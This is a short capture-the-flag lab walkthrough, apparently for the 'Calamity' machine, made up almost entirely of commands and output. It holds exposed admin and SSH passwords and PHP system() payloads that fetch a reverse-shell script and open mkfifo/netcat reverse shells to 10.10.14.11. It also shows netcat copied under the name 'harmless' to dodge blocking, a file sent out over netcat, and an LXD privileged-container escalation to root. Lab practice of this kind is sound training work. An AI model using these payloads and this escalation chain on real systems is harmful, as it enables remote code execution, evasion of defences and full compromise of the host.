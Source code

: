 **By: curl -v http://10.10.10.27/admin.php  
Account find:  
admin   
skoupidotenekes**  
**For POC:**   
```shell
<?php system('ls -lah') ?>
Permission denied:
<?php exec('wget http://10.10.14.11/revshell.php') ?>
```
**Try but fail by VM setting:**
```shell
<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.11 1234 >/tmp/f') ?>
Check useful information:
<?php system('ls -lah /home/xalvas') ?>
<?php system('cat /home/xalvas/intrusions') ?> 
```
**COPY nc Method:**
```shell
<?php system('which nc') ?>

<?php system('cp /bin/nc /dev/shm/harmless') ?> 
<?php system('chmod +x /dev/shm/harmless') ?>
<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|/dev/shm/harmless 10.10.14.11 1234 >/tmp/f') ?>
```
Try copy out to listen(TBC as CTF style):
--------------------------------------------------------
```shell
/home/xalvas/recov.wav -> recov.wav

As nc blocked,
cp /bin/nc ~/nba
Kali: nc  -l -p 9090 > recov.wav
Remote:./nba -w3 10.10.14.11 9090 < recov.wav
```
--------------------------------------------------------

Then know "xalvas" password and login SSH:
18547936..*
Kail:
```shell
git clone https://github.com/saghul/lxd-alpine-builder.git
./build-alpine -a i686
```
#### SCP via SSH:
```shell
scp alpine-v3.9-i386-20190523_1714.tar.gz  xalvas@10.10.10.27:/tmp/
Password: 18547936..*
```
**Calamity:
```shell
xalvas@calamity:/tmp$ lxc image import alpine-v3.9-i386-20190523_1714.tar.gz --alias alpine
Image imported with fingerprint: 8e6c7cb2b5f1d8c52d8a4912c485984414a2e6954ce46c7f08b6a4e99caae6aa

xalvas@calamity:/tmp$ lxc init alpine alexcold -c security.privileged=true
Creating alexcold

xalvas@calamity:/tmp$ lxc config device add alexcold somedisk disk source=/ path=/mnt/root recursive=true
Device somedisk added to alexcold

Then start the docker:
xalvas@calamity:/tmp$ lxc start alexcold

xalvas@calamity:/tmp$ lxc exec alexcold --mode=interactive /bin/sh
~ # id
uid=0(root) gid=0(root)
~ # ls -la
total 12
drwx------    2 root     root          4096 May 23 09:36 .
drwxr-xr-x   19 root     root          4096 May 23 09:34 ..
-rw-------    1 root     root            10 May 23 09:36 .ash_history
~ # cd /mnt/root/root
/mnt/root/root # ls
peda      root.txt  scr
/mnt/root/root # cat root.txt
9be653e014d17d1a54f9045e3220743c
```
